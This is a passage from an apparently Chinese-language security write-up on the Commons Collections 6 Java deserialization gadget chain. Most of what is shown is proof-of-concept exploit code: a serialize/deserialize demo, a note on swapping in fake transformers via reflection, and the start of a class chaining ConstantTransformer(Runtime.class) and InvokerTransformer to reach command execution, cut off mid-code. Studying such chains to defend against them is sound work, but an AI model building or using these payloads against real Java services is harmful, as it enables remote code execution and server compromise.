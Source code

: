 ```java
        try {
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(expMap);
            objectOutputStream.close();

            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            fakeDemo();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

![undefined](https://p5.ssl.qhimg.com/t01dc922b774b94727c.png "undefined")

![undefined](https://p2.ssl.qhimg.com/t01afd9ba5636cd720a.png "undefined")

### POC
为了解决上述出现的问题，在构造`LazyMap`的时候先构造一个`fakeTransformers`对象，等最后⽣成`Payload`的时候，再利用反射将真正的`transformers`替换进去。

```java
package CommonsCollections6;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 4:29 下午
 */
public class CommonsCollections6Gadget1 {

    public static void CC6() throws IllegalAccessException, NoSuchFieldException {
        Transformer[] fakeTransformers = new Transformer[] {};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
```